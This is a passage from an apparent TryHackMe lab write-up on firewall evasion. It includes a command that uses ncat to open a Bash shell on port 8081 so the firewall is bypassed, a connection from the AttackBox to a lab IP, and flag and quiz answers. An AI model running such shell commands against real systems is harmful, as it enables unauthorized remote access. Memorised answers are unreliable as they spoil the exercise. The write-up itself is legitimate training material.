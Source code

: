 ![](<../../.gitbook/assets/Screenshot from 2022-05-13 08-19-36.png>)

{% hint style="success" %}
`THM{1298331956}`
{% endhint %}

## Task 8 Evasion Using Non-Standard Ports

#### We’re continuing to use the web-form from Task 6 to set up the `ncat` listener. Knowing that the firewall does not block packets to destination port 8081, use `ncat` to listen for incoming connections and execute Bash shell. Use the AttackBox to connect to the listening shell. What is the user name associated with which you are logged in?

```bash
ncat -nvlp 8081 -e /bin/bash
```

![](<../../.gitbook/assets/Screenshot from 2022-05-13 08-23-00.png>)

```bash
ncat -nv 10.10.127.43 8081
id
```

![](<../../.gitbook/assets/Screenshot from 2022-05-13 08-24-00.png>)

## Task 9 Next-Generation Firewalls

#### What is the number of the highest OSI layer that an NGFW can process?

{% hint style="success" %}
`7`
{% endhint %}
